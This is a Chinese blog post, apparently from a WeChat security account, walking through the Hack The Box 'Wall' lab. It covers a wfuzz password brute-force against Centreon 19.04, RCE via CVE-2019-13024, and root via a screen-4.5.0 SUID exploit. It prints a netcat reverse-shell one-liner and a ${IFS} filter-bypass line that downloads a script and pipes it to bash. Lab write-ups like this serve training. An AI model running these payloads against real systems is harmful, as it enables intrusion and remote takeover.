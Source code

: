 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/nlPRWqDTcGchGS06CLFOwg)

一个每日分享渗透小技巧的公众号![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPTQKiaXksbZia7PmHLPX2vnCWsznInTj3b9TFYtTDIYG6lDGJZYYSv72NsVWF24Kjlo4MT29tEOQSg/640?wx_fmt=png)

  

  

大家好，这里是 **大余安全** 的第 **169** 篇文章，本公众号会每日分享攻防渗透技术给大家。

![](https://mmbiz.qpic.cn/mmbiz_png/HhnEClSmc37Bxb1zZj7tialnNnk1dnmft6ibz6n2lZaheQClZ7FHjs4RElm391lFKwznAZicyxB8VmZvSSEGHrXHQ/640?wx_fmt=png)

靶机地址：https://www.hackthebox.eu/home/machines/profile/208

靶机难度：初级（2.4/10）

靶机发布日期：2019 年 12 月 05 日

靶机描述：

Wall is a medium difficulty Linux machine running a vulnerable version of Centreon network monitoring software, which can be accessed through HTTP Verb Tampering. The login page can be brute-forced to gain Admin access, which is exploited to gain RCE. A compiled python file is decompiled to extract user credentials This provides access to an SUID, resulting in a root shell.

请注意：对于所有这些计算机，我是通过平台授权允许情况进行渗透的。我将使用 Kali Linux 作为解决该 HTB 的攻击者机器。这里使用的技术仅用于学习教育目的，如果列出的技术用于其他任何目标，我概不负责。

![](https://mmbiz.qpic.cn/mmbiz_png/KLN26icsnib2XYJCRIIHRBibXLekicoWWj63pjFjuYHlBicDncmnjctDfZtAbAodw3tO4bOczk4fxTl7EO5Pq2IM2LA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/fw07L4QCL8zxn8yLTxgxtaKEBOmKyfeXzaxN31SQFNho0f9EIq2uoMDO2O2PzQEJB0sCg2O6oeeyT10sNPHgSQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/wKQGAXOpIazhxElBDtHJPoPzBnSw3ZFoPzicm3qK9T3l9kIrooz6yQ6Dprr6uts1QJqFiakE3tfumQ6fqRchvqwg/640?wx_fmt=png)

一、信息收集

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMyFJxKsLS9TbU5jWybfCMRbR4M2TuJiaWQY5rneoRspj8lPSDa58bicDyJeuuKM4Kn2ic96lpssiahKA/640?wx_fmt=png)  

可以看到靶机的 IP 是 10.10.10.157...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMyFJxKsLS9TbU5jWybfCMRJic67dlk64XmpMUnHgiaFCAInNVKKv7HAG0iaJGySfReu00KfuHecrNYA/640?wx_fmt=png)

我这里利用 Masscan 快速的扫描出了 22，80 端口，在利用 nmap 详细的扫描了这些端口情况.. 看图即可

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMyFJxKsLS9TbU5jWybfCMRlP0FE7icvTFzpBseZ6HR9DQaQJ0U2DpLxU0ibHeHanmYqJXNjMuj4wrQ/640?wx_fmt=png)

web 页面访问的是 apache...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMyFJxKsLS9TbU5jWybfCMRTGgGYBa1jKSAIYMSorgib9KAVy4UhbdCdrKn1s4swKfNHnPwH4sMY0A/640?wx_fmt=png)

爆破了目录... 枚举看看

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMyFJxKsLS9TbU5jWybfCMRhKW9joO5jBGMib7PAE9qu8DZjs2TOzCJNF8647xDggketEtnL85ve5A/640?wx_fmt=png)

可看到 minitoring 是个身份认证登录页面...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMyFJxKsLS9TbU5jWybfCMRaeHaOuvk5HmHRJHEtsSsHMR1pRSCpsgiaaXeHMehicicVSJ49OibORfAuQ/640?wx_fmt=png)

查看返回的参数，会重定向到 centreon 页面下...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMyFJxKsLS9TbU5jWybfCMRx9LB6phD8BcRaCXgiaEicx78XXBNZdavYj0VmGlksgNwU8jiab1Jbd8mA/640?wx_fmt=png)

可看到该页面服务是 centreon 框架搭设的，版本是 19.04

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMyFJxKsLS9TbU5jWybfCMRu9W36WR7yEllcOz9q6RZgzbFf2HuhpLxVPQXa889WIibkpV260TrKpA/640?wx_fmt=png)

```
wfuzz -c -X POST -d "user -w /usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-10000.txt http://wall.htb/centreon/api/index.php?action=authenticate
```

这里查看了该框架的 19.04 的内核漏洞，后面有介绍...

里面可看到 centreon 的源代码框架页面... 从里面收集到了爆破目录的信息..

利用 Wfuzz 枚举获得了页面的登录密码...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMyFJxKsLS9TbU5jWybfCMRMiaZODb62URrbn1ibCM4Rs6icEicIes5aLZTTNwqD5SKrgicNaD5pJibIPWw/640?wx_fmt=png)

登录页面后，查看版本信息... 开始利用 CVE-2019-13024 提权...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMyFJxKsLS9TbU5jWybfCMRZrRqian7TAO58I4eHFbrF8SqGx3z7xynTNMRSS8B0yLsU4hiaOSAZDaw/640?wx_fmt=png)

47069 下载到本地...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMyFJxKsLS9TbU5jWybfCMRIYttjf4QPyf5kr88eWDWCunkbLSVOG3HBg53IWLDxtTWqNW23A8ibiaw/640?wx_fmt=png)

该 nagios_bin 字段是将在服务器上执行的字段...

EXP 代码也提示了执行该脚本需要用户名密码...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMyFJxKsLS9TbU5jWybfCMRWAKrX7OaicHwML9RnkaFMd4uqW7719Ex99c9ylic8C1vkfqonxxlRlMg/640?wx_fmt=png)

根据脚本提示执行需要的信息...

```
shell：`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 1337 >/tmp/f`
```

这里需要注意的是，页面存在字符串拦截... 需要空格才可绕过... 测试了很久...

绕过：

```
wget${IFS}-qO-${IFS}http://10.10.14.8/a${IFS}|${IFS}bash;
```

可看到获得了反向外壳...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMyFJxKsLS9TbU5jWybfCMREwGjo5JM2NANK6OAqw5QvPtFibYaeHf8PLYvdwnPpcPDISjXpkmn4Jw/640?wx_fmt=png)

LinEnum 枚举发现了 SUID 存在 screen-4.5.0 二进制程序...

这里遇到了几次了... 直接找漏洞提权

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMyFJxKsLS9TbU5jWybfCMR5EObe8WtXE1hUQ0Ml6yiaj397sNicTQNOqEeWQadWqjW5LibukRnHyOSA/640?wx_fmt=png)

将 41154 放入目录...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMyFJxKsLS9TbU5jWybfCMRgYJ4XYVgmEywHiclqiabuxnvJB4EicFm0kKXLUTXuCAJuFtnOHxyZQZQw/640?wx_fmt=png)

可看到... 本地利用 gcc 编译即可...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMyFJxKsLS9TbU5jWybfCMRGBr8OC1iaZlSqb6scHY9ChgwD0zrrr7iceOt5ch5ibmtWx18LrKADuG0g/640?wx_fmt=png)

编译好后开启 python 服务... 上传

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMyFJxKsLS9TbU5jWybfCMReYz2442ZWUgVSg5OU6726cGKicmx789K3fx41weo1NSibJ3pMqfuqJBA/640?wx_fmt=png)

上传完后，利用 EXP 的方法... 执行即可... 简单

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMyFJxKsLS9TbU5jWybfCMRtibcD51ZMXtxQAKbypn9gxCYOFDQ6oG8RKbr8KO8G4ECujTgib7TQPBA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/HhnEClSmc37Bxb1zZj7tialnNnk1dnmft6ibz6n2lZaheQClZ7FHjs4RElm391lFKwznAZicyxB8VmZvSSEGHrXHQ/640?wx_fmt=png)

成功获得了 root 权限，并获得了 root_flag 信息..

由于我们已经成功得到 root 权限查看 user 和 root.txt，因此完成这台初级的靶机，希望你们喜欢这台机器，请继续关注大余后期会有更多具有挑战性的机器，一起练习学习。

如果你有其他的方法，欢迎留言。要是有写错了的地方，请你一定要告诉我。要是你觉得这篇博客写的还不错，欢迎分享给身边的人。

![](https://mmbiz.qpic.cn/mmbiz_png/KLN26icsnib2XYJCRIIHRBibXLekicoWWj63pjFjuYHlBicDncmnjctDfZtAbAodw3tO4bOczk4fxTl7EO5Pq2IM2LA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/fw07L4QCL8zxn8yLTxgxtaKEBOmKyfeXzaxN31SQFNho0f9EIq2uoMDO2O2PzQEJB0sCg2O6oeeyT10sNPHgSQ/640?wx_fmt=png)

如果觉得这篇文章对你有帮助，可以转发到朋友圈，谢谢小伙伴~

![](https://mmbiz.qpic.cn/mmbiz_png/c5xrRn4430AnqkfAJc38Vpnc5XiaADLTjiciciaibYU4EHw3Nuh7YMtuB0hz3sb8Em9iatt5skAsibuuysPLdLY5LtWOw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/p3lIbvldZiabdI5iaCb3icRhtygUuo2sp6Hcdq0ANlpy5W3gL628uq032jsoVnGnl6HdGrgDXjfazFtkp6IInibDdQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPqjaFWwyrrhiciahSpOibxqKvSIFX0iaPcG00CjYIwQDwIDeIicmFMlOVNyhWYVSE8pJK566UK3YOUNWQ/640?wx_fmt=png)

随缘收徒中~~ **随缘收徒中~~** **随缘收徒中~~**

欢迎加入渗透学习交流群，想入群的小伙伴们加我微信，共同进步共同成长！

![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)  

大余安全

一个全栈渗透小技巧的公众号

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPTQKiaXksbZia7PmHLPX2vnCSsnsc7MHh257oYRic1MOT8qibABNUEnTq9DUL7QBwnS52EheJf4m8iaTQ/640?wx_fmt=png)